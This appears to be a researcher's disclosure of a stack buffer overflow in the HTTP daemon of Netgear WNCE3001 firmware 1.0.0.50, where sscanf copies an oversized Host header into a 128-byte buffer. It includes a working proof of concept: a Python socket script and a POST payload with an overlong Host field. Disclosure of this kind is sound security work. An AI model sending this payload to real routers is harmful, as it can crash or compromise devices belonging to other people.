




# Overview
Details of the vulnerability found in the netgear router wnce3001.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| wnce3001    |  1.0.0.50    | https://www.downloads.netgear.com/files/GDC/WNCE3001/WNCE3001-V1.0.0.50_1.0.35.zip   |


# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function http_d at offset 00405528, where the `sscanf` function is called without proper bounds checking. A specially crafted POST request can trigger the overflow.


## 2. Vulnerability  Analysis
- This vulnerability occurs when the program parses the Host field in a user's POST request. The `sscanf` function copies the contents of the Host field into the buffer `v158`, which can hold at most 128 bytes. 


- So, if the length of the Host field exceeds 128 bytes, a stack buffer overflow will occur.


# POC
## python script
```python
import socket

host = "172.17.0.173"
port = 80
file = "../crashes/payload.txt"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## Payload.txt

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
POST  HTTP/1.1
Host:���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������� 

Content=xxx
```

# Vulnerability Verification Screenshot
##  wnce3001


# Discoverer
LWJ-huster
